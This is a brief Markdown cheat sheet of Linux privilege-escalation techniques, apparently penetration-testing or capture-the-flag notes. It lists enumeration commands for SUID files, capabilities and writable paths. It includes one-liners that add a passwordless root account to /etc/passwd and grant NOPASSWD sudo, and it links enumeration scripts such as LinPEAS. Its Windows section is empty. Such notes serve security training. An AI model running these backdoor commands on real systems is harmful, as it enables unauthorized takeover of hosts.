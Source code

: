 # Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`<br>
- `find / -perm -u=s -type f 2>/dev/null`<br>
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
- `sudo -V` to check sudo version, which might be vulnerable.<br>
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoer`<br>
- 'groups`<br>

https://gtfobins.github.io/<br>
linpeas.sh<br>

Get Privilege Escalation vectors:<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows

